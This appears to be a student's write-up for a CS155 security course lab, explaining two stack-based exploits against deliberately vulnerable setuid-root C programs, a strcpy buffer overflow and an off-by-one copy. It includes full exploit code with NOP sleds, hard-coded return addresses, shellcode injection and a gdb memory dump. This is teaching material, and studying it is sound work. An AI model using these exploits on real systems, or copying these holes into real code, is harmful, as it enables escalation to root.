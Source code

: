 # cs155

- [Proj1](#proj1)
    + [Target1 Buffer overflow](#target1-buffer-overflow)
    + [Target2 Off-by-one](#target2-off-by-one)

# Proj1
## Target1 Buffer overflow
```c
int bar(char *arg, char *out)
{
  strcpy(out, arg);
  return 0;
}

void foo(char *argv[])
{
  char buf[256];
  bar(argv[1], buf);
}

int main(int argc, char *argv[])
{
  if (argc != 2)
    {
      fprintf(stderr, "target1: argc != 2\n");
      exit(EXIT_FAILURE);
    }
  setuid(0);
  foo(argv);
  return 0;
}
```
最基本的buffer overflow，直接更改return的地址，指向buf前面的NOP，然后进入执行shellcode
```c
int main(void)
{
  // put '\0' at the end
  char sploitstring[256 + 2 * sizeof(int) + 1];
  memset(sploitstring, '\x90', sizeof(sploitstring));
  sploitstring[sizeof(sploitstring) - 1] = 0;

  // shellcode is a string which ends with '\0'
  // should not copy '\0' to buffer otherwise
  // there wont be a buffer overflow
  memcpy(sploitstring + 100, shellcode, sizeof(shellcode) - 1);

  // address of eip
  int *ret = (int *) (sploitstring + 256 + sizeof(int));
  *ret = 0xbffffc5c;


  char *args[] = { TARGET, sploitstring, NULL };
  char *env[] = { NULL };

  execve(TARGET, args, env);
  fprintf(stderr, "execve failed.\n");

  return 0;
}
```
## Target2 Off by one
虽然nstrcpy做了范围check，但是多复制了一个byte，因此可以overflow `%ebp`
```c
void nstrcpy(char *out, int outl, char *in)
{
  int i, len;

  len = strlen(in);
  if (len > outl)
    len = outl;

  for (i = 0; i <= len; i++)
    out[i] = in[i];
}

void bar(char *arg)
{
  char buf[200];

  nstrcpy(buf, sizeof buf, arg);
}

void foo(char *argv[])
{
  bar(argv[1]);
}

int main(int argc, char *argv[])
{
  if (argc != 2)
    {
      fprintf(stderr, "target2: argc != 2\n");
      exit(EXIT_FAILURE);
    }
  setuid(0);
  foo(argv);
  return 0;
}
```
因为x86用的是little endian，所以溢出的两个byte就是`%ebp`的最后的两个byte，比如原来系统中`%ebp`为`0xbffffd90`，因为`sploitstring[200]=0`，所以`%ebp`就变为`0xbffffd00`，因为buf里面有201个byte，但是32位机器要连续两个word，所以溢出了两个byte

buf从`0xbffffcc8`开始，`%ebp=0xbffffd90`，buf溢出后修改`%ebp`的最后两个byte使得`%ebp`变成`%ebp=0xbffffd00`也就是在buf中间的`new_ebp`，当函数返回时，`%esp`会从`new_ebp`中load，为了方便显示，`0xbffffd00`中存了`0xffffffff`，然后`%esp`拿栈顶来load给`%eip`也就数`new_ebp`后面的`new_eip`，这也是shellcode的起始地址

**target1和target2的区别**

target2中，main调用了foo，foo调用了bar，bar里面buffer overflow，而target1中main只调用了foo，这里就是最大的区别。因为target2中，overflow了bar这个frame的`%ebp`，然后返回到foo的时候，`%esp`从`%ebp`里面load，foo想要返回时，取esp上面的也就是被替换的`%eip`返回，从而进入了shellcode。target1中，overflow了foo这个frame的`%ebp`和`%eip`，然后`%esp` load了`%ebp=0x90909090`，返回进入了shellcode，即使`%ebp`被改了也没问题。

```
                                  ^------------|
                                  |            v
addr: 0xbffffcc8  0xbffffd00 0xbffffd04                          
       [buffer  ...  new_ebp   new_eip ... shellcode]|[ebp]|[return]
val:              0xffffffff 0xbffffd08            0xbffffd00
                        ^                               |
                        |-------------------------------v
```


```console
$ (gdb) x/100x buf
0xbffffcc8: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffcd8: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffce8: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffcf8: 0x90909090  0x90909090  0xffffffff  0xbffffd08
0xbffffd08: 0x895e1feb  0xc0310876  0x89074688  0x0bb00c46
0xbffffd18: 0x4e8df389  0x0c568d08  0xdb3180cd  0xcd40d889
0xbffffd28: 0xffdce880  0x622fffff  0x732f6e69  0x90909068
0xbffffd38: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffd48: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffd58: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffd68: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffd78: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffd88: 0x90909090  0x90909090  0xbffffd00  0x0804854e
                                         ^
                                        %ebp
```
```c
int main(void)
{
  char sploitstring[201];
  memset(sploitstring, '\x90', sizeof(sploitstring));
  sploitstring[200] = 0;
  
  int offset = 0xbffffd00 - 0xbffffcc8;
  *(int *) (sploitstring + offset) = 0xffffffff;
  *(int *) (sploitstring + offset + 4) = 0xbffffd00 + 4 + 4;
  memcpy(sploitstring + offset + 4 + 4, shellcode, strlen(shellcode)); 

  char *args[] = { TARGET, sploitstring, NULL };
  char *env[] = { NULL };

  execve(TARGET, args, env);
  fprintf(stderr, "execve failed.\n");

  return 0;
}
```